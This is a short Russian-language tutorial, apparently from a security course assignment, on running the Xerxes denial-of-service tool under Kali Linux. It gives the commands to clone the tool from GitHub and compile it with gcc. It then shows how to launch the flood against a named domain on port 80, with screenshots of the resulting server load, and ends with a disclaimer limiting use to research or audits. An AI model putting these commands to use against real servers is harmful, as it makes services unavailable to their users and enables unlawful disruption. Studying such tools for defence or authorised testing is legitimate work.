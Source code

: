 # 💀 XERXES – самый мощный инструмент для DoS-атаки с использованием Kali Linux

-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```
![image](/Cyb04-onl//💀Task8/img/curl-site-x.png)

![image](/Cyb04-onl/💀Task8/img/x1.png)

## Как видеть результат атаки, возросшая нагрузка на процессор?
![image](/Cyb04-onl/💀Task8/img/x2.png)



❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.